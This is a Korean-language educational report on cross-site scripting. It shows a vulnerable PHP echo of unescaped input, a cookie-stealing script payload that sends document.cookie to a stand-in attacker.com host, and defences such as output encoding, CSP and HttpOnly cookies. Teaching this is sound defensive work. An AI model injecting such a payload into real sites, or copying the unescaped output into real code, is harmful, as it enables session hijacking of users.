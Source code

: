 # XSS (Cross-Site Scripting) 분석 보고서

## 1. XSS 란?

**신뢰된 웹사이트에 악성 스크립트 주입하기**

- **정의:** 공격자가 다른 사용자가 보는 웹페이지에 악의적인 클라이언트 사이드 스크립트(주로 JavaScript)를 삽입하는 공격 기법입니다.
- **원리:** 웹 애플리케이션이 사용자로부터 입력받은 데이터를 검증하거나 이스케이프 처리하지 않고, 그대로 페이지에 표시할 때 발생합니다.
- **영향:**
    - **세션 탈취:** 사용자의 세션 쿠키를 훔쳐 계정을 도용합니다.
    - **개인정보 유출:** 사용자의 개인정보를 공격자의 서버로 전송합니다.
    - **악성 사이트 리디렉션:** 피싱 사이트나 악성코드를 유포하는 사이트로 사용자를 유도합니다.
    - **웹사이트 변조:** 웹페이지의 내용을 임의로 변경하거나 기능을 마비시킵니다.

---

## 2. 취약한 코드 분석 (`xss_test.php`)

**문제의 핵심: 사용자 입력의 무분별한 출력**

```php
// 사용자가 입력한 검색어
$payload = $_POST['payload'];

// 취약한 출력 방식 (시뮬레이션된 코드)
// 만약 애플리케이션이 아래와 같이 코드를 작성했다면 XSS에 취약합니다.
echo "검색 결과: " . $payload;
```

**핵심 문제점:** 사용자가 입력한 모든 데이터는 잠재적으로 악의적일 수 있다는 원칙을 무시하고, 아무런 처리 없이 그대로 HTML 페이지에 출력하는 것이 문제입니다.

---

## 3. 공격 시나리오: 세션 쿠키 탈취

**공격 목표:** 다른 사용자의 세션 쿠키를 훔쳐서 해당 사용자로 위장하기

**공격 페이로드:**
`<script>document.location='http://attacker.com/cookie_stealer.php?c=' + document.cookie</script>`

**공격 과정:**
1.  공격자는 이 스크립트를 게시판의 댓글이나 검색창 등 사용자의 입력이 출력되는 곳에 삽입합니다.
2.  다른 사용자(희생자)가 해당 페이지를 열람하면, 희생자의 브라우저에서 이 스크립트가 실행됩니다.
3.  스크립트는 희생자의 세션 쿠키 정보를 가로채, 공격자의 서버로 전송합니다.
4.  공격자는 탈취한 쿠키를 이용해 희생자의 계정으로 로그인하여 모든 활동을 할 수 있게 됩니다.

---

## 4. 해결책: 출력 인코딩 (Output Encoding)

**가장 확실하고 중요한 방어 방법**

```php
// 사용자가 입력한 검색어
$payload = $_POST['payload'];

// htmlspecialchars() 함수로 안전하게 인코딩
$safe_payload = htmlspecialchars($payload, ENT_QUOTES, 'UTF-8');

// 안전하게 인코딩된 데이터를 출력
echo "검색 결과: " . $safe_payload;
```

**작동 원리:**
`htmlspecialchars()` 함수는 스크립트 실행에 필요한 특수 문자들을 HTML 엔티티로 변환합니다.
-   `<` → `&lt;`
-   `>` → `&gt;`
-   `"` → `&quot;`

브라우저는 이 변환된 문자들을 태그가 아닌 일반 텍스트로 인식하여, 스크립트가 실행되지 않고 그대로 화면에 표시됩니다.

---

## 5. XSS 방어 전략

1.  **출력 인코딩 (필수):** 사용자의 입력값을 출력할 때는 반드시 컨텍스트(HTML, JavaScript, CSS 등)에 맞는 인코딩을 적용합니다.
2.  **콘텐츠 보안 정책 (CSP):** 브라우저에 신뢰할 수 있는 스크립트 소스를 명시하여, 허용되지 않은 스크립트의 실행을 차단합니다.
3.  **입력값 검증:** 사용자의 입력은 항상 서버 측에서 예상된 형식, 길이, 문자셋인지 검증합니다. (화이트리스트 방식 권장)
4.  **HttpOnly 쿠키 속성 사용:** JavaScript가 쿠키에 접근할 수 없도록 설정하여, 쿠키 탈취 공격의 피해를 최소화합니다.
5.  **최신 프레임워크 사용:** React, Vue, Angular 등 최신 웹 프레임워크는 대부분 기본적으로 XSS 방어 기능을 내장하고 있습니다.
